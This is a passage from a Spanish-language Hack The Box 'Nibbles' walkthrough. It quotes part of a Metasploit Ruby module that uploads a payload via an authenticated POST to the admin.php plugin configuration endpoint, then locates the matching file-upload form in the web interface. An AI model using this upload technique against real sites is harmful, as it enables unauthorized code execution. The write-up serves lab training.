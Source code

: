 ```rb
---
vprint_status("#{peer} - Uploading payload...")
    res = send_request_cgi(
      'method'        => 'POST',
      'uri'           => normalize_uri(target_uri, 'admin.php'),
      'vars_get'      => {
        'controller'  => 'plugins',
        'action'      => 'config',
        'plugin'      => 'my_image'
      },
      'ctype'         => "multipart/form-data; boundary=#{data.bound}",
      'data'          => post_data,
      'cookie'        => cookie
    )
---
```

En esta parte nos indica algunos campos como **plugins**, **config** y **my_image** y si checamos vía web, vemos que podría tratarse de una ruta.

![](/assets/images/htb-nibbles/nibbles-web6.png)

Si la damos click en **Configure** dentro del campo **My_image**, vemos que podemos subir un archivo; sin embargo, no sabemos que tipo de archivos nos pueda permitir subir.
